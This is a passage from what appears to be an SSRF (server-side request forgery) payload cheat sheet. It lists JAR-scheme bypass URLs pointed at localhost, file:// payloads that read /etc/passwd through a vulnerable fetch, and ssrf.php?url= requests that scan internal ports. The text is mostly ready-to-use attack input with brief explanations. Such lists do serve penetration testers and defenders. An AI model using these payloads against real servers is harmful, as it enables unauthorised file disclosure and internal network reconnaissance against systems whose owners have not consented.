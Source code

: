 
### Bypass Using JAR Scheme

This attack technique is fully blind, you won't see the result.

```powershell
jar:scheme://domain/path!/ 
jar:http://127.0.0.1!/
jar:https://127.0.0.1!/
jar:ftp://127.0.0.1!/
```

## Exploitation via URL Scheme

### File

Allows an attacker to fetch the content of a file on the server. Transforming the SSRF into a file read.

```powershell
file:///etc/passwd
file://\/\/etc/passwd
```

### HTTP

Allows an attacker to fetch any content from the web, it can also be used to scan ports.

```powershell
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

![SSRF stream](https://github.com/khulnasoft/Resources/blob/master/Server%20Side%20Request%20Forgery/Images/SSRF_stream.png?raw=true)
